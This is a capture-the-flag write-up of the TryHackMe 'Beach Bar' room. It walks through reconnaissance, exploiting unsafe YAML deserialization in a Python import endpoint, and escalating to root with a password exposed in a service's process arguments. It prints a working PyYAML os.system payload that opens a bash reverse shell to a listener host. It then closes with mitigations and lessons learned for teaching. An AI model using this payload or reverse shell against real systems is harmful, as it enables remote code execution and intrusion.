


# Challenge 5: Beach Bar

## Overview

| Field | Value |
|---|---|
| **Platform** | TryHackMe |
| **Challenge** | Beach Bar |
| **Category** | Boot2Root / Web |
| **Difficulty** | Easy |
| **Vulnerability Type** | Unsafe YAML Deserialization |

---

## Objective

Obtain the **User Flag** and **Root Flag**.

### Target Goal

Access the target machine through the web application, exploit the vulnerability present in the YAML file import functionality, obtain a shell, and then perform privilege escalation to reach `root` and extract both flags.

---

## Reconnaissance and Analysis

### Observations

During the initial reconnaissance phase, the target was scanned using Nmap, revealing two open services:

- SSH on port 22.
- HTTP on port 80.

The web service was running on **Gunicorn**, and the page title was:

```
Beach Bar // Sign in
```

After inspecting the login page's HTML source, a comment was found containing demo credentials:

```html
<!--
staff note: the demo DJ login is still enabled.
dj / dj
-->
```

This allowed access to the application's dashboard.

### Open Services

Nmap results:

```
22/tcp open ssh OpenSSH
80/tcp open http Gunicorn
```

### Tools Used

- Nmap
- Gobuster
- Curl
- Netcat
- Bash
- Linux command-line tools

### Rationale for the Next Step

After logging into the application, additional pages were identified:

```
/dashboard
/import
/export
```

The **Export** page exported a playlist in YAML format, while the **Import** page allowed uploading or submitting YAML content. The presence of direct user-supplied YAML uploads made this endpoint worth investigating further, especially given that the application was written in Python.

---

## Root Cause

**Vulnerability:** Unsafe YAML Deserialization.

### Why It Is a Vulnerability

Some Python YAML libraries allow the execution of Python objects during deserialization when using:

```python
yaml.load()
```

with an unsafe loader. If an attacker can submit a specially crafted YAML payload, they can force the application to execute commands on the underlying system.

### How It Manifested in This Challenge

In the application code:

```python
parsed = yaml.load(content, Loader=yaml.Loader)
```

`yaml.Loader` was used instead of `yaml.SafeLoader`, allowing Python objects to be executed through a submitted YAML file.

---

## Discovery Process

After accessing the dashboard, the following options were noted:

```
Import playlist
Export playlist
```

The application relied on YAML files. A playlist was exported first to understand the format in use:

```yaml
playlist:
  name: Sunset Session
  vibe: golden hour
  tracks:
```

The next step was to test whether a Python object could be executed via YAML.

### Test Performed

A test file was created:

```yaml
!!python/object/apply:os.system
- "id"
```

It was then uploaded using:

```
curl -i -b cookies.txt \
-F "playlist_file=@test.yml" \
http://TARGET/import
```

### Observed Indicators

After the upload, the response showed:

```
Loaded playlist

0
```

The value `0` was the return code of the executed `id` command, confirming that the command had been executed on the server.

---

## Exploitation Steps

### 1. Target Discovery

```
nmap -sC -sV TARGET_IP
```

**Result:**
```
80/tcp open http
22/tcp open ssh
```

### 2. Directory Discovery

```
gobuster dir -u http://TARGET_IP \
-w /usr/share/wordlists/dirb/common.txt
```

**Discovered paths:**
```
/dashboard
/import
/export
/login
```

### 3. Logging In

The credentials found in the HTML comment were used:

```
Username: dj
Password: dj
```

### 4. Exploiting YAML Deserialization

The following payload file was created:

```yaml
!!python/object/apply:os.system
- "bash -c 'bash -i >& /dev/tcp/<machine_ip>/4444 0>&1'"
```

It was then uploaded to:

```
/import
```

This could also be submitted directly through the upload field, provided a netcat listener was prepared beforehand — resulting in remote command execution on the target machine.

### 5. Obtaining a Reverse Shell

A reverse shell listener was started to catch the connection from the target:

```
nc -lvnp 4444
```

Following successful exploitation, a shell was obtained as:

```
bartender@tryhackme
```

### 6. Result

Access to the machine was obtained as the user:

```
bartender
```

**User Flag** — located using:

```
find / -name user.txt 2>/dev/null
```



then:

```
cat /home/bartender/user.txt
```

**Result:**
```
THM{*****}
```

---

## Privilege Escalation

### Root Cause

After obtaining a shell as `bartender`, the running services with root privileges were reviewed. The service:

```
jukeboxd.service
```

was found running from:

```
/opt/beach-bar/jukeboxd/jukeboxd.py
```

Inspecting running processes with:

```
ps aux | grep -i jukebox
```



revealed that the service was launched with:

```
/opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py --stream-pass SunsetSpritz2024! --bitrate 320k
```

The service's password (`--stream-pass`) was exposed in plaintext within the process's command-line arguments. Since the service ran with root privileges, any local user could read these arguments using commands such as `ps aux`. Due to **credential reuse** with the `root` account, this password could be used directly to log in as `root`.

### Exploitation Steps

**1. Inspecting Running Processes**

```
ps aux | grep -i jukebox
```

**Output:**
```
root ... /opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py --stream-pass SunsetSpritz2024! --bitrate 320k
```

The extracted password was:

```
SunsetSpritz2024!
```

**2. Attempting to Log In as Root**

```
su root
```

Entering the extracted password when prompted:

```
Password: SunsetSpritz2024!
```

resulted in obtaining `root` privileges.

**3. Extracting the Root Flag**

```
cd /root
cat root.txt
```

### Result

Access was first obtained as `bartender`, followed by privilege escalation to `root`.

**Root Flag:**

```
cat /root/root.txt
```

**Result:**
```
THM{*****}
```

---

## Mitigation / Remediation

**Prevent Unsafe YAML Deserialization**
Use:
```python
yaml.safe_load()
```
instead of:
```python
yaml.load()
```

**Validate Uploaded Files**
- Verify the file type.
- Prevent loading of Python objects.
- Sanitize user-supplied input.

**Apply the Principle of Least Privilege**
Services such as `jukeboxd.service` should not run with root privileges unless strictly necessary.

**Protect Internal Services**
- Never store passwords inside service arguments.
- Use secure configuration files.
- Apply appropriate file permissions.

**Protect Credentials**
Sensitive passwords should never be passed via command-line arguments, since any local user can read them using tools such as `ps`. Instead, use:
- Configuration files with proper permissions.
- Environment variables when needed.
- A secrets manager for storing credentials.

**Prevent Password Reuse**
The same password should never be reused between internal services and the `root` account or any other privileged account, since its exposure on one service could lead to full system compromise.

---

## Lessons Learned

- Learned the importance of inspecting HTML source files, as they may contain sensitive information such as demo credentials.
- Learned that file import functionality is a high-risk point if the content is not properly validated.
- Learned how to identify and exploit a YAML Deserialization vulnerability.
- Learned how to use a reverse shell to access a system.
- Learned the importance of inspecting root-owned running services during the privilege escalation phase.
- Realized that gaining access as a regular user does not mean the assessment is complete — a path to higher privileges should always be sought.
- Learned that privilege escalation does not always rely on exploiting software vulnerabilities; it can result from poor credential management.
- Learned the importance of inspecting running processes with `ps aux`, as they may expose sensitive information such as passwords or access keys.
- Learned that passing passwords via command-line arguments is an insecure practice.
- Realized that credential reuse is one of the most common mistakes that can lead to full system compromise.

---

## References

- [PyYAML Documentation](https://pyyaml.org/wiki/PyYAMLDocumentation)
- [OWASP Deserialization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)

